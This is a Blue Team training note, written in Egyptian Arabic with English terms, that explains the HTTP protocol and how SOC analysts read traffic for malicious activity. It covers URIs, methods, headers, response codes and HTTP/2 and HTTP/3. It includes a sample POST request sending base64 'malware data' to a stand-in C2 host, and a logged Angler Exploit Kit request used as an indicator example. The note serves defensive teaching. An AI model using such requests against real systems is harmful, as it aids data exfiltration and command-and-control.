




> **الهدف من الـ Section ده:**
> هنفهم إزاي الـ HTTP Protocol بيشتغل من الأساس، إيه الـ Methods والـ Headers والـ Response Codes، وإزاي محلل الـ SOC يقرأ الـ HTTP Traffic ويكتشف الـ Malicious Activity فيه.

---

## Table of Contents

- [Introduction](#introduction)
- [ما هو الـ Webserver](#ما-هو-الـ-webserver)
- [تشريح الـ URI](#تشريح-الـ-uri)
- [HTTP Methods](#http-methods)
  - [GET Method](#get-method)
  - [POST Method](#post-method)
  - [HTTP/1.1 Additional Methods](#http11-additional-methods)
- [HTTP Request Headers](#http-request-headers)
  - [أهم الـ Request Headers](#أهم-الـ-request-headers)
  - [كيف تقيّم Request Header مشبوه](#كيف-تقيّم-request-header-مشبوه)
- [HTTP Response Headers](#http-response-headers)
- [HTTP Response Codes](#http-response-codes)
- [HTTP/2 و HTTP/3](#http2-و-http3)
- [Diagrams](#diagrams)
- [مقارنات سريعة](#مقارنات-سريعة)
- [Key Notes](#key-notes)
- [Summary](#summary)

---

## Introduction

الـ HTTP (HyperText Transfer Protocol) هو العمود الفقري للإنترنت، وكـ SOC Analyst هتشوفه في كل حاجة تقريباً — من التصفح العادي لحد الـ Malware Command and Control.

المشكلة إن تقريباً **كل مرحلة في الهجوم** ممكن تتعمل على الـ HTTP:
- الـ Exploit Delivery
- الـ Malware Installation
- الـ Command & Control (C2)
- الـ Data Exfiltration

عشان كده فهم الـ HTTP بعمق مش رفاهية — ده **ضرورة** لأي محلل في الـ Blue Team.

---

## ما هو الـ Webserver

الـ Webserver في جوهره هو **مشاركة ملفات** باستخدام الـ HTTP Protocol. لما تطلب موقع، الـ Webserver بيبعتلك الملف اللي في الـ URL Path.

```
/var/www/html/mysite/index.html
     ^                ^
 المسار على السيرفر   الملف المطلوب
```

### أشهر الـ Webservers

| Webserver | المزود | الاستخدام الشائع |
|-----------|--------|-----------------|
| Apache | Apache Foundation | Linux Servers |
| NGINX | NGINX Inc. | High-Performance Sites |
| IIS | Microsoft | Windows Servers |

### إزاي بيشتغل

1. الـ Browser بيبعت **HTTP Request** للـ Webserver
2. الـ Webserver بيقرأ الـ URL Path
3. بيرجع الـ File المطلوب في **HTTP Response**
4. الـ Browser بيفسّر الـ HTML/CSS/JavaScript ويعرضهم

---

## تشريح الـ URI

الـ URI (Uniform Resource Identifier) هو العنوان الكامل لأي Resource على الإنترنت.

```
http://this.is.a.site.com:8000/mysite/index.html?key1=val&key2=val
  ^         ^        ^     ^      ^        ^          ^
Protocol  Subdomain Domain Port  Folder  Filename  GET Parameters
```

### كل جزء وشرحه

| الجزء | المثال | المعنى |
|-------|--------|--------|
| **Protocol** | `http://` أو `https://` | نوع الاتصال |
| **Subdomain** | `this.is.a` | تقسيم داخلي للـ Domain |
| **Domain** | `site.com` | اسم الموقع |
| **Port** | `:8000` | رقم الـ Port (80 افتراضي لـ HTTP، 443 لـ HTTPS) |
| **Path** | `/mysite/index.html` | مسار الملف على السيرفر |
| **GET Parameters** | `?key1=val&key2=val` | بيانات مرسلة مع الطلب |

> [!TIP]
> لو مفيش Port مكتوب، افتراضياً الـ Browser بيستخدم Port 80 لـ HTTP وPort 443 لـ HTTPS. الـ Ports غير الاعتيادية زي 8080 أو 8000 مش شائعة على المواقع الشرعية، فهي ممكن تكون علامة تحتاج تحقيق.

---

## HTTP Methods

### GET Method

الـ GET هو **أكثر Method استخداماً** في الـ HTTP. بيُستخدم لـ "جلب" ملف من السيرفر.

**خصائصه:**
- البيانات المرسلة بتظهر في الـ URL كـ Parameters
- يُستخدم لكميات صغيرة من البيانات (Search Terms مثلاً)
- **يُظهر** البيانات في الـ Webserver Logs والـ Proxy Logs

**ليه ده مهم أمنياً؟**

لو Developer استخدم GET لإرسال Username وPassword، هتبقى البيانات دي مسجّلة في الـ Logs بالكامل — وده خطر أمني كبير.

```
http://example.com/login?username=admin&password=1234
                           ^                ^
                    مكشوف في الـ Logs     مكشوف في الـ Logs
```

> [!WARNING]
> **ابدأ تشك** لو شفت Credentials بتتبعت عبر GET Parameters في الـ Logs — ده خطأ أمني أو ممكن يكون Malware بيحاول يخبّي تواصله.

---

### POST Method

الـ POST بيُستخدم لإرسال بيانات للسيرفر — زي نماذج التسجيل، تسجيل الدخول، أو أي بيانات كبيرة.

**خصائصه:**
- البيانات بتتبعت في **Body** الطلب مش في الـ URL
- **مش بتظهر** في الـ Proxy Logs أو الـ Webserver Access Logs
- بيقدر يحمل كميات كبيرة من البيانات

**ليه بيحبه الـ Malware؟**

الـ Malware بيستخدم POST علشان:
1. البيانات المرسلة مش واضحة في الـ Logs
2. ممكن يعمل Encode أو Encrypt للمحتوى
3. بيمشي على أي Firewall بيسمح بـ HTTP

```
POST /submit HTTP/1.1
Host: evil-c2-server.com
Content-Type: application/x-www-form-urlencoded

data=base64EncodedMalwareData==
     ^
البيانات مخفية في الـ Body مش في الـ URL
```

---

### HTTP/1.1 Additional Methods

| Method | الاستخدام | الأهمية الأمنية |
|--------|-----------|----------------|
| **CONNECT** | إنشاء TLS Tunnel عبر Proxy | مهم لفهم HTTPS Traffic |
| **HEAD** | نفس GET لكن بدون Body | للتحقق من تاريخ الملف |
| **OPTIONS** | استفسار عن Methods المتاحة | ممكن يكشف معلومات عن السيرفر |
| **PUT** | رفع ملف للسيرفر | **خطر!** الـ Attackers بيستخدمونه لرفع Web Shells |
| **DELETE** | حذف Resource | نادر لكن ممكن يكون ضار |
| **TRACE** | Loopback للطلب | مستخدم للـ Diagnostics |

> [!IMPORTANT]
> الـ PUT Method هو أخطرهم من ناحية الأمان — لو السيرفر بيسمح بيه بدون تحقق، الـ Attacker ممكن يرفع Malicious Files أو Web Shell عليه.

---

## HTTP Request Headers

الـ HTTP Headers هي **Metadata** بتوضح معلومات إضافية عن الطلب. هي Key:Value Pairs موجودة في كل Request وResponse.

### أهم الـ Request Headers

```
GET /page.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Referer: https://google.com/
Accept: text/html,application/xhtml+xml
Cookie: sessionid=abc123xyz
```

| Header | الوظيفة | الأهمية الأمنية |
|--------|---------|----------------|
| **Host** | الـ Domain المقصود | مهم جداً — أكتر من موقع على نفس الـ IP |
| **User-Agent** | المتصفح أو البرنامج المستخدم | بيكشف نوع الـ Client |
| **Referer** | الصفحة السابقة | ممكن يكشف سلسلة الـ Redirect |
| **Cookie** | معرّف الجلسة | بيُستخدم للـ Authentication وممكن يخبّي بيانات |
| **Accept** | أنواع الملفات المقبولة | يكشف نوع الـ Client |
| **X-Forwarded-For** | الـ IP الأصلي لو في Proxy | يكشف الـ Real Source IP |

---

### كيف تقيّم Request Header مشبوه

لما بتشوف HTTP Request مشبوه، اسأل نفسك:

```
1. Host  --> هل الـ Domain شرعي؟ هل هو قديم أو حديث؟
2. User-Agent --> هل البرنامج معروف؟ هل الـ OS منطقي على شبكتك؟
3. Path --> هل مسار الملف منطقي؟ فيه Encoding مش ضروري؟
4. Content --> فيه Base64 في مكان غلط؟ فيه بيانات مشفّرة؟
```

**مثال حقيقي — Angler Exploit Kit:**

```
GET /PVfXBbR9WReNMmbQzLqrbDvNmen2ConnpC4tVP6U4RFI4HnE HTTP/1.1
Host: k615o5ij7f.skwosh.eu
Referer: http://k615o5ij7f.skwosh.eu/38104p5h2c
User-Agent: Mozilla/4.0 (compatible; MSIE 10.0; Windows NT 6.1)
```

**ليه ده مشبوه؟**
- الـ URL عشوائي ومش بيعكس اسم ملف حقيقي
- الـ Domain فيه Random Subdomain
- الـ Referer من نفس الـ Domain المشبوه

---

## HTTP Response Headers

الـ Server بيرجعلك Response Headers كمان — وهي بتكشف معلومات مهمة عن السيرفر وطبيعة الملف المُرجَع.

```
HTTP/1.1 200 OK
Server: Apache/2.4.41 (Ubuntu)
Date: Mon, 08 Feb 2021 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 2182
Set-Cookie: sessionid=xyz789; HttpOnly
```

| Header | المعنى | الاستخدام الأمني |
|--------|--------|-----------------|
| **Server** | نوع وإصدار الـ Webserver | لو كتب nginx/0.7.67 — إصدار قديم وممكن فيه ثغرات |
| **Content-Type** | نوع الملف المُرجَع (MIME Type) | ابحث عن EXE أو ZIP بتنزل من أماكن غريبة |
| **Content-Length** | حجم الملف بالـ Bytes | تنزيلات كبيرة مش متوقعة = مشبوهة |
| **Set-Cookie** | تعيين Cookie للـ Client | الـ Malware ممكن يخبّي بيانات هنا |
| **Date** | وقت الـ Response | مفيد في الـ Forensics لتحديد التسلسل الزمني |

> [!NOTE]
> الـ **Content-Type** هو من أهم الـ Headers للـ Analyst — لو السيرفر بيدّعي إنه بيرجع `text/html` بس الـ Content فيه Magic Bytes لملف EXE، ده دليل واضح على تلاعب.

---

## HTTP Response Codes

الـ Response Codes بتقولك **ماذا حدث** بعد إرسالك الطلب.

### تصنيف الـ Codes

```
1xx  Informational    --> الطلب وصل، استنّى
2xx  Success          --> تمّ بنجاح
3xx  Redirection      --> روح مكان تاني
4xx  Client Error     --> انت عملت حاجة غلط
5xx  Server Error     --> السيرفر عنده مشكلة
```

### أهم الـ Codes وتفسيرها أمنياً

| Code | المعنى | الأهمية الأمنية |
|------|--------|----------------|
| **200** | OK — نجح الطلب | الطبيعي |
| **301** | Moved Permanently | تحقق من الـ Redirect Destination |
| **302** | Found — Redirect مؤقت | Exploit Kits بتستخدمه كتير للـ Redirect Chain |
| **401** | Unauthorized | الـ User محتاج يسجّل دخول — Brute Force؟ |
| **403** | Forbidden | الـ User متسجّل لكن محظور عليه — Access Control |
| **404** | Not Found | ممكن Attacker بيحاول يلاقي مسارات مخفية |
| **407** | Proxy Auth Required | لو Malware مش بيكمل Auth بعدها = مشبوه |
| **500** | Internal Server Error | ممكن يكشف SQL Injection أو Buffer Overflow محاولة |

> [!TIP]
> لو شفت طلبات كتير بتاخد **404** من نفس الـ IP — ده غالباً Directory Bruteforcing أو Scanner بيحاول يلاقي ملفات مخفية.

---

## HTTP/2 و HTTP/3

### HTTP/2 — التحدي الجديد للـ Blue Team

الـ HTTP/2 جاء بتحسينات كبيرة في الأداء، لكنه عقّد حياة الـ Analyst.

**الفروق الجوهرية:**

| الخاصية | HTTP/1.1 | HTTP/2 |
|---------|----------|--------|
| الاتصالات | TCP Connection لكل Request | TCP Connection واحد لكل الـ Requests |
| شكل الـ Headers | نص عادي (Plain Text) | Binary Frames |
| التتبع | سهل | يحتاج Stream ID |
| التشفير | اختياري | إجباري للـ Browsers |
| الـ Server Push | غير موجود | السيرفر يبعت ملفات قبل ما تطلبها |

**في Wireshark مع HTTP/2:**
- ابحث عن الـ Packets المسمّاة `HEADERS` و `DATA`
- اتبع الـ **Stream ID** لربط الـ Request بالـ Response
- الـ Headers الآن مضغوطة بـ HPACK — مش بتقدر تقرأها مباشرة

### HTTP/3 — QUIC Protocol

الـ HTTP/3 يعمل على الـ **UDP** بدلاً من الـ TCP — وده بيعني:
- أسرع في الأداء (مش محتاج TCP Handshake)
- أصعب في التحليل
- Wireshark 3.6 مش قادر يـ Decode محتواه بشكل كامل

> [!WARNING]
> مع انتشار الـ HTTP/2 وHTTP/3، الـ Blue Team هيبقى أعمى كتير لو مش عنده TLS Decryption. ابدأ تخطط لـ TLS Inspection الآن قبل ما يبقى الوضع أصعب.

---

## Diagrams

### مسار الـ HTTP Request والـ Response



---

### تدفق تحليل HTTP Request مشبوه



---

### الـ HTTP Methods وتدفق البيانات



---

### مقارنة HTTP/1.1 vs HTTP/2



---

## مقارنات سريعة

### GET vs POST

| الخاصية | GET | POST |
|---------|-----|------|
| مكان البيانات | في الـ URL | في الـ Request Body |
| يظهر في الـ Logs | نعم | لا |
| حد البيانات | صغير | غير محدود |
| الاستخدام | جلب ملفات، بحث | نماذج، تسجيل دخول |
| الأمان | بيانات مكشوفة | بيانات مخفية نسبياً |
| يُستخدم في الـ Malware | للـ C2 Check-ins | لإرسال Stolen Data |

---

### أهم Request Headers للـ SOC Analyst

| Header | ليه مهم؟ | علامة الخطر |
|--------|---------|------------|
| **Host** | يعرفك الـ Domain المطلوب | Domain عشوائي أو حديث جداً |
| **User-Agent** | يعرفك نوع الـ Client | User-Agent غريب أو مش موجود |
| **Referer** | يبيّن سلسلة الـ Redirect | Redirect غير منطقي |
| **Cookie** | Session Management | بيانات Base64 مشبوهة |

---

### Response Codes من منظور أمني

| Code Range | المعنى | ما يعنيه للـ Analyst |
|-----------|--------|---------------------|
| 2xx | نجاح | الطلب تم — راجع نوع الـ Content المُرجَع |
| 3xx | Redirect | تتبع سلسلة الـ Redirect |
| 4xx | خطأ Client | كتير منه = Scanning أو Brute Force |
| 5xx | خطأ Server | ممكن يدل على Exploitation محاولة |

---

## Key Notes

> [!NOTE]
> الـ **Host Header** هو من أهم Headers — لأن أكتر من موقع ممكن يكون على نفس الـ IP Address، فلو ما اتحققتش من الـ Host Header، ممكن تفتكر إنك بتتكلم مع موقع شرعي وانت في الحقيقة بتتكلم مع موقع تاني.

> [!WARNING]
> الـ **User-Agent** ممكن يتزوّر — الـ Malware غالباً بيستخدم User-Agent ثابت مبرمج فيه. لو لقيت كل الأجهزة بتستخدم نفس User-Agent القديم أو الغريب، ده علامة تحقيق.

> [!IMPORTANT]
> الـ **Content-Type Header** في الـ Response ممكن يكون كاذب. السيرفر الضار ممكن يقول إن الملف `text/html` وهو في الحقيقة `application/exe`. **دايماً** تحقق من الـ Magic Bytes الفعلية للملف مش بس الـ Header.

> [!TIP]
> لو شفت POST Request بتروح لـ IP مباشر (بدون Domain في الـ Host Header)، ده علامة قوية على Malware C2 Communication — المواقع الشرعية دايماً بتستخدم Domain Name.

> [!WARNING]
> مع انتشار الـ **HTTP/2 وHTTP/3**، الرؤية على الـ Network هتقل بشكل كبير. لازم تعمل TLS Inspection وتتعلم كيف تحلل HTTP/2 Traffic في Wireshark باستخدام Stream IDs.

---

## Summary

### النقاط الرئيسية

- الـ **Webserver** هو في جوهره نظام مشاركة ملفات يستخدم HTTP Protocol
- الـ **URI** بيتكوّن من: Protocol + Subdomain + Domain + Port + Path + Parameters
- الـ **GET Method** بيُظهر البيانات في الـ URL وفي الـ Logs — خطر لو فيه بيانات حساسة
- الـ **POST Method** بيخبّي البيانات في الـ Body — الـ Malware بيفضله لذلك
- الـ **PUT Method** خطير لو مسموح للـ Unauthenticated Users بيه — ممكن يُستخدم لرفع Web Shells
- الـ **Host Header** هو المصدر الموثوق لمعرفة الـ Domain المطلوب
- الـ **User-Agent** ممكن يكشف Malware لو كان غريب أو ثابت بشكل غير طبيعي
- الـ **Content-Type** في الـ Response ممكن يكون مزيّف — تحقق من Magic Bytes
- الـ **Response Codes** بتساعدك تفهم ماذا حدث — كتير من 404 = Scanning
- الـ **HTTP/2 وHTTP/3** عقّدوا التحليل — محتاج TLS Decryption وفهم Stream IDs
